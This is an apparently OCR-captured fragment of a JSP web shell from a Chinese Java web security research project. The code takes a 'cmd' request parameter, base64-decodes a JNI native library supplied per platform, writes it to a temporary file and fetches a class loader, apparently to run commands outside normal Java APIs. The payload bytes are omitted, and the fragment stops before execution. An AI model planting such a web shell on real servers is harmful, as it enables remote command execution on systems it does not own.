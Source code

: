 ```java
                return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
            }
        } catch (Exception e) {
            return null;
        }
    }

    /**
     * 写JNI链接库文件
     * @param base64 JNI动态库Base64
     * @return 返回是否写入成功
     */
    void writeJNILibFile(String base64) throws IOException {
        if (base64 != null) {
            File jniFile = getTempJNILibFile();

            if (!jniFile.exists()) {
                byte[] bytes = base64Decode(base64);

                if (bytes != null) {
                    FileOutputStream fos = new FileOutputStream(jniFile);
                    fos.write(bytes);
                    fos.flush();
                    fos.close();
                }
            }
        }
    }
%>
<%
    String cmd = request.getParameter("cmd");
    String jniBytes = request.getParameter("jni");


    String COMMAND_JNI_FILE_BYTES;
    if (isWin()) {
        if (isWin32()) {
            // windows 32
            COMMAND_JNI_FILE_BYTES = "省略具体的Base64编码信息，请参考javaweb-sec/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp";
        } else {
            // windows 64
            COMMAND_JNI_FILE_BYTES = "省略具体的Base64编码信息，请参考javaweb-sec/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp";
        }
    } else {
        if (isMac()) {
            // mac
            COMMAND_JNI_FILE_BYTES = "省略具体的Base64编码信息，请参考javaweb-sec/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp";
        } else {
            // centos 7 64
            COMMAND_JNI_FILE_BYTES = "省略具体的Base64编码信息，请参考javaweb-sec/javaweb-sec-source/javasec-test/javasec-vuls-struts2/src/main/webapp/modules/jni/loadlibrary.jsp";
        }
    }


    // JNI路径
    File jniFile = getTempJNILibFile();
    ClassLoader loader = (ClassLoader) application.getAttribute("__LOADER__");

```